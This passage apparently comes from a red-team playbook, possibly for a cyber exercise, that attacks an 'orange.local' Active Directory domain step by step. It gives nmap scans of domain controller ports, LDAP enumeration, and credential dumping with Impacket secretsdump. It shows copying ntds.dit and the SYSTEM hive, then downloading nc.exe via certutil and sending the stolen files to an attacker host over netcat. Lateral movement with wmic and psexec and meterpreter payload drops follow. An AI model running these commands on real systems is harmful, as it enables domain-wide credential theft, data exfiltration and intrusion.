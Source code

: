 ```bash
nmap -p 389,445,88,135,139,389,636,3268,3269 -sV -Pn 172.20.0.0/16
```

- Look for the Domain Controller (likely in orange-servers or orange-users).

## Phase 7: Credential Access (via LDAP, SAM/NTDS)

- Once a DC is identified (e.g., 172.20.2.X), you can:
 	- `88`, `389`
- Enumerate via LDAP (LOLBAS):

```bash
ldapsearch -x -h 172.20.2.X -b "dc=orange,dc=local"
```

If admin rights are obtained, dump credentials:

1. Use secretsdump from Impacket

```bash
impacket-secretsdump 'orange.local/adminuser:password@172.20.2.X'
```

2. If on host with NTDS.dit access:
Copy ntds.dit and SYSTEM hive for offline cracking

```bash
copy C:\Windows\NTDS\ntds.dit D:\stolen\
reg save hklm\system D:\stolen\system.hiv
```

Transfer those over SMB/certutil:

```bash
certutil -urlcache -f http://<attacker_ip>/nc.exe nc.exe
nc.exe <attacker_ip> 4444 < ntds.dit
nc.exe <attacker_ip> 4445 < system.hiv
```

Then parse locally:

```bash
secretsdump.py -ntds ntds.dit -system system.hiv LOCAL
```

## Phase 8: Lateral Movement and Persistence

Target all Networking Devices and drop a payload that creates a meterpreter session on each of them:

![IMAGE]https://github.com/Infinit3i/Cyber-Yankee-2025/blob/9993caae90329032f5b35a56bc1ae6e0b1da61cd/Sassy%20Panda/palo_payload_creation.png

Use Admin Shares:

```bash
wmic /node:172.20.0.X process call create "cmd.exe /c whoami"
psexec.py orange.local/adminuser@172.20.0.X
```

